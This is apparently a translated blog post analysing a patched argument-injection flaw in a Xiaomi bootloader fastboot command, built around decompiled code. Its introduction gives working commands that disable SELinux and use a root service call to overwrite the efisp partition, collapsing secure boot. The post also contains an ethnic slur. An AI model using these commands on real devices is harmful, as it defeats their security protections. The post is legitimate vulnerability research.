

```markdown
---
title: "Pokapoka Wrecking Xiaomi — A Small Leak Sinks a Great Ship (1): Analysis of Xiaomi Fastboot Overflow"
date: 2026-05-24T09:58:00+08:00
draft: false
toc: false
images:
tags:
  - tech
  - pokapoka
  - android
  - xiaomi
  - vulnerable
description: "Xiaomi once made decent porridge; now it’s just murky water."
---

> This article is mainly translated from zh-CN to en by AI, so some of statements may not prorperly.

## Introduction

Xiaomi has an OEM command `set-gpu-preemption` that contains a kernel cmdline argument injection vulnerability. Actual usage:

```
# the second argument could cause argument injection. This is what we are talking about today
fastboot oem set-gpu-preemption 0 androidboot.selinux=permissive
fastboot continue 

# This is exploiting IMQS(a MI service) to get root, this calling has root permission, dd command means to exploit the GBL boot vulnerable to persist the root shell. 3 vulnerables in a row, causing all secureboot chain collapsed.
adb shell 'service call miui.mqsas.IMQSNative 21 i32 1 s16 "dd" i32 1 s16 "if=/data/local/tmp/linuxloader_unlock.efi of=/dev/block/by-name/efisp" s16 "/data/mqsas/log.txt" i32 60'
```

## Analysis

Tests confirmed that in HyperOS 3.0.305, this vulnerability has been patched.

The following disassembled code shows how the illegal argument concatenation occurs. Analysis performed with Ghidra 12.0.4 BuildDev; some minor spacing errors are present. Certain key variables have been renamed for clarity.

```c
// HyperOS 3.0.305 ABL, RVA 0x5d600
void fb_oem_set_gpu_preemption(void)

{
  bool bVar1;
  undefined1 uVar2;
  undefined1 uVar3;
  long len;
  undefined *puVar5;
  undefined8 uVar6;
  long extraout_x8;
  byte *userinput;
  code *pcVar7;
  char buf_msg [256];
  char buf_log [64];
  undefined8 local_28;
  
  FUN_00060db0();
  local_28 = *(undefined8 *)(extraout_x8 + 0x20);
  AsciiStrCpyS(buf_log,"Set GPU HW Preemption: ",0x40);
  AsciiStrCpyS(buf_msg," msm_kgsl.preempt_enable=",0x100);

  for (; (len = AsciiStrLen((long)userinput), len  != 0 && (*userinput == 0x20));
      userinput = userinput + 1) {
  }
  
  len = AsciiStrLen((long)userinput);
  if (len == 1) {
    uVar2 = 0x2f < (*userinput & 0xfe);
    uVar3 = (*userinput & 0xfe) == 0x30;
    if ((bool)uVar3) {
      puVar5 = (undefined *)AsciiStrLen((long)unaff_x19);
      AsciiStrCatS(buf_msg,0x100,(char *)userinput, puVar5);
      pcVar7 = *(code **)(DAT_00103398 + 0x58);
      uVar6 = AsciiStrLen((long)buf_msg);
      FUN_00061234();
      if (!(bool)uVar2 || (bool)uVar3) {
        FUN_00003900();
      }
      len = (*pcVar7)(L"GpuConfiguration",&DAT_000 c8364,7,uVar6,buf_msg);
      if (len < 0) {
        puVar5 = (undefined *)AsciiStrLen(0x643ef);
        uVar3 = puVar5 + -10 == (undefined *)0xfffffffffffff ff4;
        if (puVar5 + -10 < (undefined *)0xfffffffffffffff5) {
          FUN_00003900();
        }
        AsciiStrCatS(buf_log,IMAGE_DOS_HEADE R_00000000.e_program,": failed!",puVar5);
        FUN_00057738();
      }
      else {
        puVar5 = (undefined *)AsciiStrLen(0x726e2);
        FUN_000616f8();
        if (!(bool)uVar2 || (bool)uVar3) {
          FUN_00003900();
        }
        AsciiStrCatS(buf_log,IMAGE_DOS_HEADE R_00000000.e_program,": done",puVar5);
        FUN_0005784c();
      }
      FUN_00060904();
      if ((bool)uVar3) {
        return;
      }
      goto LAB_0005d7e8;
    }
  }
  bVar1 = false;
  FUN_00060904();
  if (bVar1) {
    FUN_00057738();
    return;
  }
LAB_0005d7e8:
   error_dertection_halting();
}


undefined8 AsciiStrCatS(char *param_1,undefined  *param_2,char *param_3,undefined *param_4)

{
  char *pcVar1;
  undefined1 in_ZR;
  bool bVar2;
  undefined *puVar3;
  char *pcVar4;
  undefined *puVar5;
  undefined8 uVar6;
  undefined8 uVar7;
  undefined *puVar8;
  
  puVar3 = (undefined *)FUN_000024d8();
  if (param_1 == (char *)0x0) {
    pcVar4 = FUN_00060d84();
    uVar6 = 0x828;
  }
  else if (param_3 == (char *)0x0) {
    pcVar4 = FUN_00060d6c();
    uVar6 = 0x829;
  }
  else {
    in_ZR = param_2 == &DAT_000f4240;
    if (param_2 < &DAT_000f4241) {
      in_ZR = param_4 == &DAT_000f4240;
      if (param_4 < &DAT_000f4241) {
        if (param_2 != (undefined *)0x0) {
          in_ZR = param_2 == puVar3;
          if ((bool)in_ZR) {
            pcVar4 = FUN_00061bbc();
            FUN_00001efc(pcVar4,0x83b);
            uVar7 = 0x8000000000000004;
          }
          else {
            puVar8 = param_2 + -(long)puVar3;
            puVar5 = (undefined *)FUN_000024d8();
            in_ZR = puVar8 <= param_4 && puVar8 == puV ar5;
            if (puVar8 <= param_4 && puVar8 <= puVar5) {
              pcVar4 = FUN_00061c04();
              FUN_00001efc(pcVar4,0x842);
              uVar7 = 0x8000000000000005;
            }
            else {
              if (param_4 <= puVar5) {
                puVar5 = param_4;
              }
              bVar2 = param_3 <= param_1;
              pcVar4 = param_3 + (long)puVar5 + 1;
              in_ZR = bVar2 && pcVar4 == param_1;
              if (bVar2 && param_1 < pcVar4) {
                FUN_00001efc("/home/work/mnt/miui_codes1/build_home_rom-odm-merged/kernel_platform/out/bazel/output_user_root/b1970bca595d87272e733a0c3ce8a31e/sandbox/processwrapper-sandbox/142/execroot/_main/bootable/bootloader/edk2/MdePkg/Library/BaseLib/SafeString.c"
                             ,0x84b,
                             "InternalSafeStringNoAsciiStrOverlap (Destination, DestMax, (CHAR8 *)Source, SourceLen + 1)"
                            );
              }
              else {
                pcVar1 = param_1 + (long)param_2;
                in_ZR = param_3 >= param_1 && pcVar1 == param_3;
                if (((param_3 < param_1 || pcVar1 <= param_ 3) ||
                    (FUN_00001efc("/home/work/mnt/miui_codes1/build_home_rom-odm-merged/kernel_platform/out/bazel/output_user_root /b1970bca595d87272e733a0c3ce8a31e/s andbox/processwrapper-sandbox/142/exe croot/_main/bootable/bootloader/edk2/M dePkg/Library/BaseLib/SafeString.c"
                                  ,0x84b,
                                  "InternalSafeStringNoAsciiStrOverlap (Destination, DestMax, (CHAR8 *)Source, SourceLen + 1)"
                                 ), !bVar2 || pcVar4 <= param_1)) &&
                   (in_ZR = param_1 <= param_3 && pcVar1 = = param_3,
                   param_1 > param_3 || pcVar1 <= param_3) ) {
                  pcVar4 = param_1 + (long)puVar3;
                  for (; (puVar5 != (undefined *)0x0 && (*para m_3 != '\0')); param_3 = param_3 + 1)
                  {
                    *pcVar4 = *param_3;
                    puVar5 = puVar5 + -1;
                    pcVar4 = pcVar4 + 1;
                  }
                  uVar7 = 0;
                  *pcVar4 = '\0';
                  goto LAB_00002ac4;
                }
              }
              uVar7 = 0x800000000000000f;
            }
          }
          goto LAB_00002ac4;
        }
        pcVar4 = FUN_00061108();
        uVar6 = 0x836;
      }
      else {
        pcVar4 = 
        "/home/work/mnt/miui_codes1/build_home_rom-odm-merged/kernel_platform/out/bazel/outp ut_user_root/b1970bca595d87272e733a0c3ce8 a31e/sandbox/processwrapper-sandbox/142/execroot/_main/bootable/bootloader/edk2/MdePkg/Library/BaseLib/SafeString.c";
        uVar6 = 0x830;
      }
    }
    else {
      pcVar4 = FUN_000614f0();
      uVar6 = 0x82f;
    }
  }
  uVar7 = 0x8000000000000002;
  FUN_00001efc(pcVar4,uVar6);
LAB_00002ac4:
  FUN_000608d8();
  if (!(bool)in_ZR) {
    error_dertection_halting();
  }
  return uVar7;
}

// RVA FUN_00043a2c
void error_dertection_halting(void)

{
  FUN_00001c1c(0x80000000,"Error: Stack Smashing Detected. Halting...\n");
  do {
  } while( true );
}

```

```c
// HyperOS 3.0.45 ABL, RVA 0x5f3d4
void fb_oem_set_gpu_preemption(void)
{
	undefined1 in_ZR;
	undefined1 in_CY;
	long lVar1;
	undefined *n;
	long extraout_x8;
	byte *user_input;
	code *pcVar3;
	char buf_msg [256];
	char buf_log [64];
	undefined8 uStack_28;
	FUN_00062a68();
	uStack_28 = *(undefined8 *)(extraout_x8 + 0x80);
	AsciiStrCpyS(buf_log,"Set GPU HW Preempti on: ",0x40);
	AsciiStrCpyS(buf_msg," msm_kgsl.preempt_ enable=",0x100);
	while (lVar1 = AsciiStrLen((long)user_input), lVar 1 != 0) {
		in_CY = 0x1f < *user_input;
		in_ZR = *user_input == 0x20;
		if (!(bool)in_ZR) break;
		user_input = user_input + 1;
	}
	n = (undefined *)AsciiStrLen((long)user_input);
	AsciiStrCatS(buf_msg,IMAGE_DOS_HEADER_00000000.e_program + 0xc0,(char *)user_input,n);
	pcVar3 = *(code **)(DAT_001063f0 + 0x58);
	AsciiStrLen((long)buf_msg);
	FUN_00062d84();
	if (!(bool)in_CY || (bool)in_ZR) {
		FUN_00003900();
	}
	lVar1 = (*pcVar3)(L"GpuConfiguration",&DAT_000cb 3b4,7,user_input,buf_msg);
	if (lVar1 < 0) {
		n = (undefined *)AsciiStrLen(0x65d1c);
		in_ZR = n + -10 == (undefined *)0xfffffffffffffff 4;
		if (n + -10 < (undefined *)0xfffffffffffffff5) {
		FUN_00003900();
	}
	AsciiStrCatS(buf_log,IMAGE_DOS_HEADER_00000000.e_program,": failed!",n);
	FUN_00059084();
	}
	else {
		n = (undefined *)AsciiStrLen(0x7493d);
		FUN_000631c4();
		if (!(bool)in_CY || (bool)in_ZR) {
			FUN_00003900();
		}
		AsciiStrCatS(buf_log,IMAGE_DOS_HEADER_00000000.e_program,": done",n);
		FUN_00059198();
	}
	FUN_000626f8();
	if ((bool)in_ZR) {
		return;
	}
	error_dertection_halting();
}

// RVA 0004a00c
void error_dertection_halting(void)
{
	FUN_00001c1c(0x80000000,"Error: Stack Smashing Detected. Halting...\n");
	do {
	} while( true );
}

```

### Comparison Conclusion

- In 3.0.305, `fb_oem_set_gpu_preemption` contains strict input validation: `AsciiStrLen(input) == 1 && (*input & 0xFE) == 0x30`, i.e. it only accepts a single character `'0'` or `'1'`. Any other input directly flows to `FUN_00043a2c` (the `error_dertection_halting` path).
- The same function in 3.0.45 lacks this validation and directly passes the user input (`unaff_x19`, the fastboot command argument) to `AsciiStrCatS(buf_msg, 0xC0, input, AsciiStrLen(input))`.
- The concatenated string is then written to a UEFI variable via `SetVariable(L"GpuConfiguration", ...)` and ultimately appended to the kernel cmdline after `msm_kgsl.preempt_enable=`.

### Core of the Injection Vulnerability in Version 3.0.45

Specifically, for the core fastboot injection command:

```
fastboot oem set-gpu-preemption-value 0 androidboot.selinux=permissive
```

The command string delivered by the fastboot protocol is received by the handler, and the `user_input` it gets is everything after `oem set-gpu-preemption-value`, i.e.:

```
0 androidboot.selinux=permissive
```

Looking back at the 3.0.45 code, the crucial lines are:

```c
while (... *user_input == 0x20) user_input++;   // only skips leading spaces; NCC changed the original for to while for readability. Original decompiled code is in Github repo.
n = AsciiStrLen(unaff_x19);                      // n = length of the entire remaining string
AsciiStrCatS(buf_msg, 0x100, user_input, n);     // appends the entire remaining string to buf_msg
```

The initial content of `buf_msg` is `" msm_kgsl.preempt_enable="`. After concatenation, it becomes:

```
 msm_kgsl.preempt_enable=0 androidboot.selinux=permissive
```

This `buf_msg` is then handed over to the `GpuConfiguration` protocol/variable write and finally appended to the kernel command line. When booting with `continue`, the kernel parses the cmdline by splitting on spaces, so `androidboot.selinux=permissive` becomes an independent, effective kernel parameter.

**Core bug: the handler assumes `user_input` is "a single value", but in reality it's "everything left on the command line", and spaces within it are not treated as delimiters to truncate.** Everything after the space is also carried along. Additionally, at the beginning of the function there is no check whether the device must be unlocked before invoking this command, so execution proceeds directly. NCC's journey to the Holy Land was unobstructed, encountering no obstacles whatsoever.

### Core of the Fix in 3.0.305

The gate in 305:

```c
len = AsciiStrLen(user_input);
if (len == 1) {                          // the entire remaining string length must be exactly 1
    uVar3 = (*userinput & 0xfe) == 0x30; // and must be '0' or '1'
```

The string `0 androidboot.selinux=permissive` is far longer than 1, so it is immediately rejected by the `if (len == 1)` check. Even if only `fastboot oem set-gpu-preemption 0 androidboot...` were sent, as long as a space and other things follow, `len` will not be 1 and cannot enter the block.

**Core fix: a strong constraint of 0/1, while simultaneously limiting the length to 1, shuts down other types of injection.** (This length limitation in the actual source code may just be a side effect of some safe function.)

### The Chain

A particularly interesting point in the 3.0.45 code:

```c
pcVar3 = *(code **)(DAT_001063f0 + 0x58);
//...
lVar1 = (*pcVar3)(L"GpuConfiguration",&DAT_000cb 3b4,7,user_input,buf_msg);
```

Here `pcVar3` is clearly invoked as a method, and the user input `buf_msg` is stored there. Tracking the structure `DAT_001063f0` leads to the following offsets (which turned out to be unnecessary because it's the standard `EFI_RUNTIME_SERVICES` layout), and the base offset `0x58` corresponds to the `SetVariable` method.

| Offset | Field                     | Note |
| ------ | ------------------------- | ---- |
| 0x00   | EFI_TABLE_HEADER (Hdr)    | +24  |
| 0x18   | GetTime                   | +8   |
| 0x20   | SetTime                   | +8   |
| 0x28   | GetWakeupTime             | +8   |
| 0x30   | SetWakeupTime             | +8   |
| 0x38   | SetVirtualAddressMap      | +8   |
| 0x40   | ConvertPointer            | +8   |
| 0x48   | GetVariable               | +8   |
| 0x50   | GetNextVariableName       | +8   |
| 0x58   | SetVariable               | +8   |
| 0x60   | GetNextHighMonotonicCount | +8   |
| 0x68   | ResetSystem               | +8   |
| 0x70   | UpdateCapsule             | +8   |

According to the `SetVariable` method definition in UEFI Spec 2.10:
```
EFI_STATUS SetVariable (
  IN     CHAR16     *VariableName,   // variable name (UTF-16 string)
  IN     EFI_GUID   *VendorGuid,     // GUID associated with the variable
  IN     UINT32     Attributes,      // attribute bitmask, e.g. 7 = NV+BS+RT
  IN     UINTN      DataSize,        // data size (bytes)
  IN     VOID       *Data            // data buffer pointer
);
```

Regarding the code:

```c
FUN_000029f0(acStack_168,IMAGE_DOS_HEADER_00000000.e_program + 0xc0,(char *)unaff_x19,puVa r2);
```

The decompilation shows the handler calling `AsciiStrnCatS(buf_msg, DestMax, user_input, AsciiStrLen(user_input))`. This function is the standard implementation from the EDK2 SafeString library with 4 parameters, semantically: actual bytes copied = `min(Length, DestMax - AsciiStrLen(Destination) - 1)`.

The second parameter, DestMax, appears in the decompilation as `IMAGE_DOS_HEADER_00000000.e_program + 0xc0`, which is clearly an artifact from Ghidra misapplying the `IMAGE_DOS_HEADER` structure type on the PE header's zero page. The zero page gets interpreted as the `IMAGE_DOS_HEADER` type, causing an addition-based offset expression instead of a direct immediate. But even knowing it's an artifact, its target value and true purpose took NCC quite some time to find, because it was uncertain whether it referred to a temporary variable dump-site or an assignment. Eventually, after digging, it's confirmed to be a direct immediate: `0x40 + 0xc0 = 0x100`. The reason was found in the assembly:

```txt
  LAB_0005f438         XREF[2]:              0005f420(j), 0005f42c(j)  
0005f438  e0 03 13 aa               mov                   x0,x19
0005f43c  95 8f fe 97                 bl     FUN_00003290                                                                                   
0005f440  e3 03 00 aa               mov                   x3,x0
0005f444  e0 23 00 91               add                    x0,sp,#0x8
0005f448  01 20 80 52               mov                   w1,#0x100
0005f44c  e2 03 13 aa               mov                   x2,x19
0005f450  68 8d fe 97                bl                       FUN_000029f0 
0005f454  28 05 00 f0                adrp                  x8,0x106000
0005f458  e0 23 00 91               add                    x0,sp,#0x8
0005f45c  08 f9 41 f9                 ldr                      x8,[x8, #0x3f0]=>DAT_001063f0
0005f460  14 2d 40 f9                ldr                      x20,[x8, #0x58]
0005f464  8b 8f fe 97                 bl                       FUN_00003290
0005f468  47 0e 00 94               bl                       FUN_00062d84
0005f46c  29 06 00 54               b.ls                    LAB_0005f530
```
(Ghidra's crappy formatting — copied variables get random spaces, copied assembly adds over a dozen tabs impossible to clean. Getting it aligned and readable takes longer than typing it by hand. It seems the CIA's R&D division has also been infiltrated by Indians.)

#### Concluding that `FUN_000029f0` is `AsciiStrnCatS`

For the code:

```c
pcVar6 = param_1 + (long)puVar2;   // puVar2 from FUN_000024d8() = AsciiStrnLenS(Destination, DestMax)
for (; (puVar4 != (undefined *)0x0 && (*param_3 != '\0')); param_3 = param_3 + 1)
{
    *pcVar6 = *param_3;
    puVar4 = puVar4 + -1;
    pcVar6 = pcVar6 + 1;
}
*pcVar6 = '\0';
```

The closest match NCC found inside edk2 is this snippet:

```c
Destination = Destination + DestLen;
while ((SourceLen > 0) && (*Source != 0)) {
  *(Destination++) = *(Source++);
  SourceLen--;
}
*Destination = 0;
```

It appends `Source` from the end of `Destination`'s current string, copying byte by byte until the remaining space runs out or source terminates. This matches the semantics of `AsciiStrnCatS`, not a behaviorally similar `CopyMem`. Together with two `InternalSafeStringNoAsciiStrOverlap` assertions and the EDK2 path `SafeString.c` line number `0x84b` (2123 lines), and the function body containing EDK2 SafeString.c path strings, the `InternalSafeStringNoAsciiStrOverlap` assertion string, and the PCD check `(Length <= (_gPcd_FixedAtBuild_PcdMaximumAsciiStringLength))`—all hallmark elements of EDK2's `AsciiStrnCatS`—the function name, after several doubts and revisions, can be fully confirmed.

### Big Picture


## P.S.

Not yet complete, but sent out anyway.
//TODO
- Re-trace the `GpuConfiguration` read side to confirm the specific cmdline concatenation as proof.
- Check FtwLite, VarCheck, and VariableRuntimeDxe during ABL init to see if NVRAM is unmounted; if NVRAM wasn't mounted yet and the attributes were set to 7, that would be the left brain attacking the right brain.
- Gripes about AI: Claude is hypersensitive all over; it refused even to discuss directions when I had no ideas. DeepSeekV4 was spewing nonsense and only helped a bit with table formatting. Gemini refused to work and kept praising NCC's observation skills as extremely sharp. GPT is incapable and conservative. Overall, NCC is still better, just too taxing on NCC's brain.
```